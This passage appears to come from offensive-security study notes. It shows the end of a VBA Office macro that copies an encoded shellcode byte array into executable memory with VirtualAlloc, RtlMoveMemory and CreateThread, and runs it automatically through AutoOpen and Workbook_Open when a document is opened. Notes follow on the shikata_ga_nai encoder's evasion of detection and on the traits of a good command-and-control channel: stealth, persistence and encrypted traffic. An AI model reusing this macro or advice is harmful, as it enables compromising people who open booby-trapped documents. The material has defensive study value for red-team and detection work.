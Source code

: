 ```vbs
134,49,154,177,42,179,75,35,208,125,222,5,148,246,146,122,55,250,86,119,165,143,80,112,80,4,26,168,76,73,173,166,135,42,159,173,90,42,31,170,201,147,99,242,128,228,210,182,201,243,43,248,20,50,245,45,20,20,2,193,101,136,178,40,194,132,32,203,50,1,58,175,76,216,235,1,49,128,189,116, _
240,254,12,101,151,2,151,60,95,207,36,69,59,240,169,165,161,160,121,15,33,78,40,127,69,136,221,57,90,59,205,41,16,188,173,48,109,165,212,145,43,169,211,31,104,61,1,32,60,134,211,148,140,142,43,131,69,119,24,210,101,10,14,228,182,251,12,73,22,246,128,181,182,223,224,97,244,251,139,125, _
169,55,119,83,8,227,64,144,233,217,124,30,153,192,42,220,19,147,83,254,108,159,164,235,175,253,225,241,174,48,30,169,3,132,32,155,225,89,78,182,123,69,174,123,169,107,30,74,50,215,173,47,64,56,165,76,121,13,194,115,150,168,137,78,20,183,147,91,132,56,152,229,85,149,118,18,175,193,123,105, _
98,185,37,87,12,220,206,118,169,50,83,137,73,6,164,132,75,199,27,114,238,61,0,156,112,86,234,36,125,252,72,195,72,251,185,13,148,229,133,18,189,29,210,182,251,150,44,110,94,7,71,176,247,15,101,57,235,121,67,13,228,7,80,247,104,248,6,75,80,234,17,140,109,248,98,109,198,149,170,173, _
23,104,166,91,211,133,18,126,101,169,209,21,250,137,13,198,180,215,251,72,84,55,135,135,249,241,121,240,1,38,141,138,150,145,216,231,71,230,32,126,218,54,55,76,15,134,14,11,81,192,95,200,180,208,32,199,76,249,159,117,174,61,201,130,66,228,229,237,245,179,173,253,172,25,250,106,193,199,136,36, _
131,147,217,234,174)

	Kjpjr = VirtualAlloc(0, UBound(Omagfa), &H1000, &H40)
	For Nunfzfwl = LBound(Omagfa) To UBound(Omagfa)
		Ljcndgm = Omagfa(Nunfzfwl)
		Jnjbycok = RtlMoveMemory(Kjpjr + Nunfzfwl, Ljcndgm, 1)
	Next Nunfzfwl
	Jnjbycok = CreateThread(0, 0, Kjpjr, 0, 0, 0)
End Sub
Sub AutoOpen()
	Auto_Open
End Sub
Sub Workbook_Open()
	Auto_Open
End Sub
```

#### Aside: shikata-na-gai encoder

* a _polymorphic XOR additive feedback encoder_
* links
    * https://www.rapid7.com/db/modules/encoder/x86/shikata_ga_nai
    * https://github.com/rapid7/metasploit-framework/blob/master/modules/encoders/x86/shikata_ga_nai.rb
* generates different output on each run
* the output can only be recognised by actually running the code in a VM or sandbox


### Charactersitcs of a good C2

1. Egress connectivity
    * The client must be able to initiate connections back to the C2 server
    * needs to do this in a way to minimize firewall interference
1. Stealth - avoid detection by host IDS or network IDS
1. Remote filesystem access
    * be able to copy files to/from the compromised system
1. Remote command execution on the compromised system
1. Secure communications
    * traffic between C2 client and server should be encrypted to prevent responders from seeing what actions have been taken
1. Persistence
    * C2 client must be able to survive reboots
1. Port forwarding
    * We want to be able to redirect traffic bi-directionally via the compromised host
1. Control thread
    * Ensure that connection to the C2 server is re-established in the event of reboot or network connectivity problem

